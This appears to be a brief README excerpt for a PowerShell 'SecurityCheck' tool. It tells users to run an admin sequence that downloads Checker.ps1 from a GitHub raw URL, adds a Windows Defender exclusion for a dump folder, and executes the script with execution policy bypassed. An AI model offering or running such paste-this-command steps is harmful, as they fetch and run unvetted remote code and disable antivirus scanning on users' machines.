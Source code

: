 ## Start (PowerShell Admin):
New-Item -Path "C:\Temp" -ItemType Directory -Force | Out-Null;
Set-Location "C:\Temp";
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/6D7377/SecurityCheck/main/Checker.ps1" -OutFile "Checker.ps1";
Add-MpPreference -ExclusionPath 'C:\Temp\Dump' | Out-Null; powershell -ExecutionPolicy Bypass -File "C:\Temp\Checker.ps1";
